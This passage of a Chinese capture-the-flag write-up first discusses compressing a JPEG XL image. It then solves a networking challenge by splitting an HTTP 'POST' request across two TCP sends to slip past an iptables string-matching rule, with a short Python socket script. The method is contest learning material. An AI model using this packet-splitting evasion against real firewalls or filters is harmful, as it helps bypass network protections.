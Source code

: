 当然其实搞清楚格式也不够，主要还是得研究哪块有冗余信息，图片数据是怎么构成的。经过调试检查，我发现 cjxl 生成的图片是这么构成的：

- 图片头和帧头。这块没有什么差别。
- MA Tree。这块 cjxl 生成的只有三个节点。一个根节点两个叶子节点。而使用题解中的方法生成的有 17 个节点（9 个叶子 8 个分支）。
- EntropyStreamData。不考虑 Stream 文件头部分，这块 cjxl 生成的内容有 250 bits 长，而题解生成的没有（因为其实全 0 了就被压缩掉了）。

具体解码方式也很不同：

cjxl 生成的图像，只有两个 channel，第一个大小是 3x3，表示颜色变换；第二个大小是 1024x1024，表示每个像素对应的序号。而对于 MA Tree，读取每个位置对应的值时，在寻叶子节点过程中的分支（根）节点看的是这个点上面的点的值（如果在最顶就看左侧），看是 01 还是 2，之后导入到不同叶子节点。而从叶子节点读出来的值，经过 predictor 后获取的就是 012（如果正好是第二个 channel 对应的数据，如果是第一个 channel 则是一个大小为几百的其他值），分别对应三个不同颜色块。在读取完两个通道后，执行三次颜色变换：每次把第一个 channel 的值取三个，然后做某种算法（懒得细看），生成一个新 channel。做完三次变换后，生成的三个通道就对应着要输出的 RGB 了。

我们再观察哪些数据有冗余或者说编码得不太好。这两个 channel 内容读取的字节流大小分别为大约 200 bits （明明只有 9 个字节）和 50 bits。而 Stream 对应的头部也很大。因此我们不难想到一种新方案：重新构造一个新的 MA Tree，使得先是 Color Channel 对应不同的流，剩下的图片数据直接使用 MA Tree 根据横坐标（而不是上面点的值）直接进行切分。这样应该能省不少字节流，而 MA Tree 和字节流头部的增加不会特别多。这样分下来总共应该是四个叶子节点。

但反正这玩意搓起来不是短时间能搓好的，于是最后放弃了（寻思着就算搓出来了也要再做个二进制才能提升名次，而且估计得搓个三五小时，实在是累了，没想到还有囤 flag 的），先去看其他二进制了。

后来和题解的对比了一下，感觉我这个做法应该比用那个 JXL Tree 生成的还要小。毕竟作者看起来也不懂内什么 ANSSymbolDistribution，没有实现相关功能，使用这个东西压缩一些信息应该还是有搞头的。当然我也不懂，所以也没搓成（改 lib 还是太烦了）。

事后反思一下，发现没做出来的主要问题还是眼瞎和人傻。https://jpegxl.info/ 翻了好几遍硬是没看到那个明示的 `JXL Art! Beauty in a handful of bytes.`，也没有上网去搜什么 smallest JXL file。如果仔细看了的话都能找到这个，然后就很容易构造了。

## 0x11 Komm, süsser Flagge

非常好计算机网络题目。

我们要知道 iptables 是针对数据包执行策略的。

对于第一问，显然这是经典 "TCP粘包" 问题。TCP 是不对单个数据包做任何保证的，只对数据流做保证。因此我们可以把请求拆成两个包分别发送，使其都不包含 POST 的完整串。需要手搓一下 raw tcp。

```python
import socket
import time

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
# IP="202.38.93.111"
IP="192.168.23.1"
PORT=18081

s.connect((IP,PORT))
s.send(b"PO")
time.sleep(1)
s.send(b"ST / HTTP/1.1\r\n")
s.send(b"Host: 202.38.93.111:18080\r\n")
s.send(b"Content-Length: 100\r\n")
s.send(b"Content-Type: application/x-www-form-urlencoded\r\n")
s.send(b"\r\n")
s.send(b"211:114514\r\n")

print(s.recv(1024))
```
